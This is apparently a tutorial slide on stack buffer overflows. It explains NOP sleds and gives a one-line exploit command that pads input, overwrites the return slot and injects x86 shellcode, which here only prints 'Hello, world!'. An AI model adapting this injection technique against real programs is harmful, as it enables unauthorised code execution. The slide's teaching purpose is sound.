

# Step 3: Inserting our own code
We won’t know exactly where in the code we will end up, so we add NOPs (null operation – \x90) to the front of it
This way, we can end up anywhere in the code, and it’ll keep following the NOPs until the first line of our code
Things move around in memory, and this makes it a lot easier to land in the right place!

run < <(python -c 'print "a"*56 + "b"*8 + "\x90"*30 + "\xeb\x13\x59\x31\xc0\xb0\x04\x31\xdb\x43\x31\xd2\xb2\x0f\xcd\x80\xb0\x01\x4b\xcd\x80\xe8\xe8\xff\xff\xff\x48\x65\x6c\x6c\x6f\x2c\x20\x77\x6f\x72\x6c\x64\x21\x0a\x0d"')